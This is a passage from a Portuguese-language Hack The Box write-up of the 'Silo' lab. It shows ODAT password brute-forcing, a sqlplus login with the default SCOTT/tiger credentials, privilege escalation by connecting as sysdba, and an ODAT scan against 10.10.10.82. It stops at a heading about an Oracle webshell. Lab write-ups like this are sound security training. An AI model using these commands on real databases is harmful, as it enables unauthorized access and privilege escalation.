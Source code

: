 ### 3 - Adivinhar Usuários e Senhas

Próximo passo é fazer um brute force para descobrir usuários e senhas

`python3 odat.py passwordguesser -s 10.10.10.82 -d XE`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_odat3.png)

Show, encontramos usuário e senha. Então recapitulando, encontramos o nome da instância do banco de dados. Encontramos um usuário e senha válido para essa estância do banco de dados, vamos prosseguir então

### 4 - Checar o banco de dados

Agora, devemos nos conectar ao banco de dados, para isso usamos o `sqlplus`

`sqlplus SCOTT/tiger@10.10.10.82:1521/XE`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql.png)

Bom, reviramos o banco de dados e não encontramos nada de útil. Então vamos prosseguir

### 5 - db Privileve Escalation

Agora o próximo passo é realização a escalação de privilégio do banco de dados

Olhando no acesso que temos, o usuário SCOTT não tem porra nenhuma de privilégio

`select * from user_role_privs;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql1.png)

Puts, mas se conectarmos `as sysdba`, é algo como se fosse um sudo para Oracle, nós temos muito mais

`sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba`

`select * from user_role_privs;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql2.png)

Show... estamos indo bem. Podemos fazer isso com o ODAT também, ele faz um scan bem bacana

`odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_slq4.png)

Ta blz, mas o que podemos fazer com cada campo desses, pra mim pareceu tudo em grego... Na página do GitHub da ODAT tem o pode ser feito

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql3.jpg)

Mas olhando o que temos e o que tem na imagem, não tem como rodar comandos na máquina, então vamos prosseguir

## Exploração WebShell Oracle
